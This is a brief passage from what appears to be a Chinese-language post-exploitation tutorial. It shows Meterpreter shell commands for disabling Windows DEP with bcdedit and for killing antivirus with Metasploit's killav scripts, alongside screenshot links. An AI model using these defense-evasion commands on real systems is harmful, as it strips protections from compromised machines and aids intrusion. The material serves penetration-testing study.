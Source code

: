   ![关闭防火墙及杀毒软件_4](./后渗透/关闭UAC、防火墙及杀毒软件_5.png)

- 关闭DEP（数据执行保护）

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>bcdedit.exe /set {current} nx alwaysoff
  ```

  ![关闭防火墙及杀毒软件_5](./后渗透/关闭UAC、防火墙及杀毒软件_6.png)

- 关闭杀毒软件

  > 使用MSF脚本

  ```
  # meterpreter > run killav
  # meterpreter > run post/windows/manage/killav
  ```
